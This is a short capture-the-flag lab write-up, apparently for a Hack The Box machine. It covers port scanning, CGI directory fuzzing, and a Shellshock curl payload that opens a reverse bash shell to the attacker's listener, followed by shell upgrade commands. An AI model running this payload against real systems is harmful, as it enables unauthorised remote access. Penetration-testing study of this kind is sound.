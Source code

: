 # Information gathering

*system Network*
10.10.10.56

*nmap*

```
PORT     STATE SERVICE VERSION                            
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))         
|_http-server-header: Apache/2.4.18 (Ubuntu)               
|_http-title: Site doesn't have a title (text/html).          
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)                             
| ssh-hostkey:                                                 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)       
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)          
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)                                   
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

*directory enum*

```bash
feroxbuster -u http://10.10.10.56 -w /usr/share/seclists/Discovery/Web-Content/Apache.fuzz.txt
```

```bash
ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-small-words-lowercase.txt  -u http://10.10.10.56/cgi-bin/FUZZ -e .sh,.cgi,.py,.pl
```

*shell shock*
payload: 

```bash
curl -i -H "User-agent: () { :;}; /bin/bash -i >& /dev/tcp/10.10.14.3/6001 0>&1" http://10.10.10.56/cgi-bin/user.sh
```

listener:
```bash
socat file:`tty`,raw,echo=0 tcp-listen:6001
```

ps. `python3 -c 'import pty; pty.spawn("/bin/sh")'`

*screen shot*

![image-20221220170946256](D:\OSCP\hackthebox\attachments\image-20221220170946256.png)

